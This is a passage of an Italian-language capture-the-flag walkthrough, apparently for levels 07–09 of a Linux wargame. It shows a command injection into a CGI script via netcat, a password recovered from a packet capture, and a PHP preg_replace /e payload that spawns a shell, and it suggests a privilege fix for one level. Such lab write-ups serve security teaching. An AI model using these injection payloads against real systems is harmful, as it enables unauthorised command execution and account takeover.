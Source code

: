 Esaminando lo script *index.cgi*, è possibile iniettare comandi arbitrari tramite parametro *Host* della querystring. Si esegue quindi il seguente comando per risolvere la challenge.

```bash
echo -ne "GET /index.cgi?Host=localhost%3Bgetflag\r\n\r\n" | nc localhost 7007
```

In cui:
- l'opzione **-n** di echo serve a disattivare \n automatico alla fine del messaggio
- l'opzione **-e** serve a interpretate le sequenze di escaping
- **\r\n** serve a terminare la linea del protocollo HTTP e a terminare il messaggio intero (per questo è ripetuto due volte).
- **%3b** è il corrispondente urlencoded del carattere ';', che altrimenti lo script interpreterebbe come separatore dei parametri

#### Fix: l'utente che esegue il web server ha privilegi troppo elevati
Basta sostituire l'utente in *thttpd.conf* (flag07) con l'utente meno privilegiato (level07) e riavviare il web server da root.

### Level08

Nella cartella di flag08 è presente un file .pcap leggibile da tutti. Si copia il file in locale.

```bash
scp -P 2222 level08@localhost:/home/flag08/capture.pcap .
```

Si apre il file con Wireshark e con tasto destro > follow si segue il flusso TCP. Il flusso visualizzato in ASCII mostra una password con dei punti. Cliccando su un punto si scopre che il byte corrispondente al carattere non stampabile è *0x7f*, che corrisponde al carattere DEL. Si ricostruisce quindi la password finale **backd00Rmate** e la si usa per loggare nell'account di flag08.

Si esegue poi getflag.

### Level09
Il binario è un wrapper di uno script PHP che accetta file con righe in formato **[email *altro*]**. In altro è possibile specificare un comando arbitrario da eseguire mediante interpolazione delle stringhe PHP. Il comando viene eseguito grazie al modificatore **/e** contenuto nella regex di preg_replace.

Si crea un file di testo contenente il payload seguente:
```php
[email {${system($use_me)}}]
```

In questo modo la chiamata effettuata ad ogni match corrisponderà a **spam("{${system($use_me)}}")**. PHP esegue prima il comando interpolato. Il comando va specificato come secondo argomento del binario.

Si esegue quindi il binario in questo modo:
```bash
/home/flag09/flag09 payload.txt /bin/sh
```
In questo modo si ottiene una shell con i permessi di flag09 tramite la quale si può eseguire getflag.
